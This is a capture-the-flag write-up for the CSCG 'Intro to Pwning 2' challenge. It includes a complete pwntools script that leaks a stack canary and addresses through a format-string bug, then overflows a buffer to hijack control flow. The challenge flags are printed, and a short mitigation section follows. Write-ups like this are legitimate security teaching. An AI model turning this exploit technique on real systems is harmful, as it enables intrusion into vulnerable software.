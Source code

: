 # Intro to Pwning 2

## Solution

The source code of this challenge looks very similar to that of the previous challenge, it only verifies now at the beginning that we solved the previous challenge
by checking the flag. The functions `welcome`, `AAAAAAAA` and `WINgardium_leviosa` are the same.
<br/>
```
[*] '/home/layton/Desktop/cscg/Intro-to-Pwning-2/pwn2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
We notice that in contrast to the Intro to Pwning 1 challenge, a stack canary was added as a new security measure. After watching [this video of LiveOverflow](https://www.youtube.com/watch?v=4HxUmbOcN6Y),
it was pretty clear to me that we have to leak the stack canary and place it between the padding and the payload, so that is the last value on the stack and effectively doesn't change.
Using the same techniques as in the previous writeup, I calculated the offset to the `WINgardium_leviosa` function and bypass the `strcmp` check.
<br/> <br/>
But how do figure out the stack canary value? We can look at the leaked values from the string format vulnerability and look for values ending with `00`. The stack canary usually ends with `00` and if there is
a value on the same index constantly ending with `00`, then that's probably our stack canary value:
<br/> <br/>
![](stack_canary.png)
<br/> <br/>
Putting everything together:
```python
#!/usr/bin/env python3

from pwn import *

format_string = "|".join(["%p" for _ in range(65)])

r = remote("hax1.allesctf.net", 9101)

r.sendline(b"CSCG{NOW_PRACTICE_MORE}")

r.sendline(format_string)
leaks = r.recvuntil("enter your magic spell:").decode("utf-8").split("|")

main = int(leaks[43], 16)
canary = int(leaks[38], 16)

log.info(f"main: {hex(main)}")
log.info(f"canary cookie: {hex(canary)}")

padding = b"A" * 251
win = main - 0x24c
ret = win + 0x36

log.info(f"return from WINgardium_leviosa: {hex(ret)}")
log.info(f"WINgardium_leviosa: {hex(win)}")

r.sendline(b"Expelliarmus\x00" + padding + p64(canary) + b"B"*8 + p64(ret) + p64(win))

r.interactive()
```

Flag: `CSCG{NOW_GET_VOLDEMORT}`


## Mitigation

Mitigate the format string vulnerability by replacing `printf(read_buf);` with `printf("%s", read_buf);"` and the buffer overflow by using a safe alternative to `gets` such as
`fgets` that only reads as much characters as specified and set it to something smaller than the buffer size.
